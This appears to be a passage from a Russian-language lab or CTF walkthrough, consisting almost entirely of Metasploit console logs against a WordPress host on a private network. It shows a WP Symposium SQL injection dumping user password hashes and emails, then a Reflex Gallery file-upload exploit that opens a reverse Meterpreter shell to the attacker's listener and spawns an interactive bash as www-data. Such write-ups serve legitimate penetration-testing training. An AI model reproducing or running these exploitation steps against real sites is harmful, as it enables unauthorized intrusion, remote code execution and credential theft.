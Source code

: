 ```html
msf5 > use auxiliary/admin/http/wp_symposium_sql_injection
msf5 auxiliary(admin/http/wp_symposium_sql_injection) > set RHOSTS 192.168.56.118
RHOSTS => 192.168.56.118
msf5 auxiliary(admin/http/wp_symposium_sql_injection) > set TARGETURI /wordpressTARGETURI => /wordpress
msf5 auxiliary(admin/http/wp_symposium_sql_injection) > run
[*] Running module against 192.168.56.118

[+] 192.168.56.118:80 - admin           $P$BYWgfD7pa572QS9YFoeVVmhrIhBAx0. abc@gmail.com
[+] 192.168.56.118:80 -                                                    
[+] 192.168.56.118:80 - aarti           $P$BHyn.q5e5/HG9/UT/Ow3xkH2xXsikx0 aarti@gmail.com
[*] Auxiliary module execution completed
```

>Получены хэши пользователей, они понадобятся позже. Приступим ко второму плагину:

```html
msf5 auxiliary(admin/http/wp_symposium_sql_injection) > search reflexgallery

Matching Modules
================

   #  Name                                              Disclosure Date  Rank       Check  Description
   -  ----                                              ---------------  ----       -----  -----------
   0  exploit/unix/webapp/wp_reflexgallery_file_upload  2012-12-30       excellent  Yes    Wordpress Reflex Gallery Upload Vulnerability


msf5 auxiliary(admin/http/wp_symposium_sql_injection) > use exploit/unix/webapp/wp_reflexgallery_file_upload
msf5 exploit(unix/webapp/wp_reflexgallery_file_upload) > set RHOSTS 192.168.56.118
RHOSTS => 192.168.56.118
msf5 exploit(unix/webapp/wp_reflexgallery_file_upload) > set TARGETURI /wordpress
TARGETURI => /wordpress
msf5 exploit(unix/webapp/wp_reflexgallery_file_upload) > run

[*] Started reverse TCP handler on 192.168.56.109:4444 
[+] Our payload is at: kGelnSRAgudHy.php. Calling payload...
[*] Calling payload...
[*] Sending stage (38288 bytes) to 192.168.56.118
[*] Meterpreter session 1 opened (192.168.56.109:4444 -> 192.168.56.118:32828) at 2020-03-25 10:43:25 -0400
[+] Deleted kGelnSRAgudHy.php

meterpreter > shell
Process 1811 created.
Channel 0 created.
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/html/wordpress/wp-content/uploads/2020/03$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
